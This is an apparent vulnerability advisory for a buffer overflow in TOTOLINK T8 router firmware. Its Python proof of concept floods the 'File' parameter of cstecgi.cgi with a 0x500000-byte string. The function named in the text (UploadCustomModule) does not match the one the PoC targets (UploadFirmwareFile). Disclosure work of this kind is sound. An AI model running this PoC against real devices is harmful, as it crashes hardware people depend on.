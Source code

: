 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware a buffer overflow vulnerability in the `UploadCustomModule ` function. The `v8` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the `strcpy(v15, v8);` can cause a buffer overflow vulnerability.

![image-20240902135434834](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902135434834.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {'topicurl' : "UploadFirmwareFile",
"File" : "a"*0x500000}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
